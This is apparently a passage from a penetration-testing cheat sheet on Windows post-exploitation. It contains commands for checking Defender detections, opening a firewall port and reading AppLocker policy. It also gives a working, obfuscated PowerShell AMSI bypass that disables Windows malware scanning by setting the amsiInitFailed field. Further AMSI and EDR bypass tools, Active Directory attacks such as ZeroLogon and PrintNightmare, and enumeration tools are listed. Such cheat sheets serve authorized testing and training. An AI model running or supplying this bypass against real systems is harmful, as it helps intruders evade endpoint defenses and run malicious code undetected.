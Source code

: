 - Check blocked threats
```bash
Get-MpThreatDetection
```

## Firewall Exception
- Adding exception for one port in firewall
```bash
netsh advfirewall firewall add rule name="allow" dir=in action=allow protocol=tcp localport=443
```

## Applocker Policy
- We can get Applocker policy using
```bash
Get-AppLockerPolicy -Effective
```

## AMSI Bypass
- Can use this bypass
```bash
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
- Other bypasses: 
- `amsi.fail`
- `https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell`
- `https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/`
- `https://s3cur3th1ssh1t.github.io/A-tale-of-EDR-bypass-methods/`
- AMS-BP
- `SharpUnhooker`
- `SysCallAMSIScanBufferBypass`
- AMSI Trigger
- PS-AMSI
- ThreatCheck
- DefenderCheck

## Some AD Attacks:
- KerbRelayUP
- ZeroLogon
- PrintNightmare
- PrintSpooler
- PetitPotam

## Automation
- `WinPWN`
- `autoenum`
- `threader3000`